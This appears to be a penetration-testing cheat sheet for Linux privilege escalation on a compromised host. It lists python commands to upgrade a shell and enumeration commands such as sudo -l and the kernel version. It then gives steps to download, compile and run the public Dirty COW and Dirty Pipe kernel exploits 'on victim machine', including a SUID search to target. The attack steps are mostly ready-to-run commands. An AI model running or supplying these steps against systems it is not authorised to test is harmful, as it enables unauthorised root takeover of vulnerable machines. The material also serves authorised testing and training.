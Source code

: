 # Manual Enumeration

## Upgrade Shell

```bash
python -c 'import pty;pty.spawn("/bin/bash")'

python -c 'import pty;pty.spawn("/bin/sh")'

python3 -c 'import pty;pty.spawn("/bin/bash")'

python3 -c 'import pty;pty.spawn("/bin/sh")'
```

## Operating Environment

```bash
# kernel information
uname -a
searchsploit kernel_version

# os release information
cat /etc/os-release

# environment variables
env
set

# current user
whoami
id
hostname

# sudo permissions
sudo -l
```

If system is vulnerable to **dirty-cow**:

```bash
wget https://raw.githubusercontent.com/FireFart/dirtycow/refs/heads/master/dirty.c

# compile it on victim machine if is possible
gcc -pthread dirty.c -o dirty -lcrypt
chmod +x dirty
./dirty
```

If system is vulnerable to **dirty-pipe**:

- https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/tree/main

```bash
# compile it on victim machine if is possible
gcc -pthread exploit-2.c -o exploit-2 -lcrypt
chmod +x exploit-2

find / -perm -4000 2>/dev/null

#We must run the exploit against a SUID binary to inject and overwrite memory in a root process. So first we need to search SUID binaries on the system.

./exploit-2 SUID
```
